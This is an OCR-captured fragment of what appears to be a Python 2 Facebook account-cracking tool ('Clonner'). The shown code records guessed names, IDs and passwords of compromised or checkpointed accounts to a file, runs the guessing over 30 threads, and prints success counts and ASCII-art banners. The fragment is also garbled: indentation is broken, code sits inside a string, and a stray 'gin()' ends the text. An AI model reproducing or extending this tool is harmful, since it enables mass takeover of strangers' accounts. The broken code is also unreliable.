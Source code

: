 				                                                                                                   print '\x1b[1;93m[۩۞۩] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				                                                                                                   print '\x1b[1;93m[۩۞۩] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				                                                                                                   print '\x1b[1;93m[۩۞۩] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass9 + '\n'
				                                                                                                   cek = open("out/super_cp.txt", "a")
				                                                                                                   cek.write("ID:" +user+ " Pw:" +pass9+"\n")
				                                                                                                   cek.close()
				                                                                                                   cekpoint.append(user+pass9)		
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
#Dev:Toxic_Shark
        print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mClonner\033[1;95m-_-_-_-_-_-_-_-_-»"
	print '\033[1;94m[Process Has Been Completed]'
	print"\033[1;94mTotal\033[1;92mOK/\x1b[1;91mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;91m"+str(len(cekpoint))
	print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mClonner\033[1;95m-_-_-_-_-_-_-_-_-»"
	print """
             
          ^^         |         ^^
          ::         |         ::
   ^^     ::         |         ::     ^^
   ::     ::         |         ::     ::
    ::     ::        |        ::     ::
      ::    ::       |       ::    ::
        ::    ::   _/~\_   ::    ::
          ::   :::/     \:::   ::
            :::::(       ):::::
                  \ ___ /
             :::::/`   `\:::::
           ::    ::\o o/::    ::
         ::     ::  :":  ::     ::
       ::      ::   ` `   ::      ::
      ::      ::           ::      ::
     ::      ::             ::      ::
     ^^      ::             ::      ^^
             ::             ::
             ^^             ^^

print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mClonner\033[1;95m-_-_-_-_-_-_-_-_-»"
	
\033[1;94m██████╗░██╗░░░██╗███████╗
\033[1;94m██╔══██╗╚██╗░██╔╝██╔════╝
\033[1;94m██████╦╝░╚████╔╝░█████╗░░
\033[1;94m██╔══██╗░░╚██╔╝░░██╔══╝░░
\033[1;94m██████╦╝░░░██║░░░███████╗
\033[1;94m╚═════╝░░░░╚═╝░░░╚══════╝
"""
	print "\033[1;95m«-_-_-_-_-_-_-_-_-\033[1;91mClonner\033[1;95m-_-_-_-_-_-_-_-_-»"
	raw_input("\n\033[1;97m[\033[1;95mBack\033[1;97m]")
	menu()

if __name__ == '__main__':
	login()
gin()
